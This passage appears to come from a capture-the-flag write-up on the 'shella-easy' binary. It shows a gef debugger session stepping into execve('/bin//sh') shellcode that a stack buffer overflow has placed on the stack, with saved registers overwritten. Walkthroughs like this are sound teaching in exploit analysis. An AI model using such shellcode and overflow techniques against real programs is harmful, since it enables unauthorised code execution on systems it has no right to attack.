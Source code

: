```
────────────────────────────────────────────────────────────────────────────────
gef➤  s
0xfff4cad0 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x31313131 ("1111"?)
$ecx   : 0xf7f475a0  →  0xfbad208b
$edx   : 0xf7f4887c  →  0x00000000
$esp   : 0xfff4cb20  →  0x00000000
$ebp   : 0x31313131 ("1111"?)
$esi   : 0xf7f47000  →  0x001b1db0
$edi   : 0xf7f47000  →  0x001b1db0
$eip   : 0xfff4cad0  →  0x6850c031
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
────────────────────────────────────────────────────────────────────────────────────── stack ────
0xfff4cb20│+0x0000: 0x00000000	 ← $esp
0xfff4cb24│+0x0004: 0xfff4cbb4  →  0xfff4e297  →  "./shella-easy"
0xfff4cb28│+0x0008: 0xfff4cbbc  →  0xfff4e2a5  →  "QT_QPA_PLATFORMTHEME=appmenu-qt5"
0xfff4cb2c│+0x000c: 0x00000000
0xfff4cb30│+0x0010: 0x00000000
0xfff4cb34│+0x0014: 0x00000000
0xfff4cb38│+0x0018: 0xf7f47000  →  0x001b1db0
0xfff4cb3c│+0x001c: 0xf7f8ec04  →  0x00000000
──────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
 → 0xfff4cad0                  xor    eax, eax
   0xfff4cad2                  push   eax
   0xfff4cad3                  push   0x68732f2f
   0xfff4cad8                  push   0x6e69622f
   0xfff4cadd                  mov    ebx, esp
   0xfff4cadf                  push   eax
──────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xfff4cad0 → xor eax, eax
─────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/10i 0xfff4cad0
=> 0xfff4cad0:	xor    eax,eax
   0xfff4cad2:	push   eax
   0xfff4cad3:	push   0x68732f2f
   0xfff4cad8:	push   0x6e69622f
   0xfff4cadd:	mov    ebx,esp
   0xfff4cadf:	push   eax
   0xfff4cae0:	push   ebx
   0xfff4cae1:	mov    ecx,esp
   0xfff4cae3:	mov    al,0xb
   0xfff4cae5:	int    0x80
```

There we can see our shellcode.
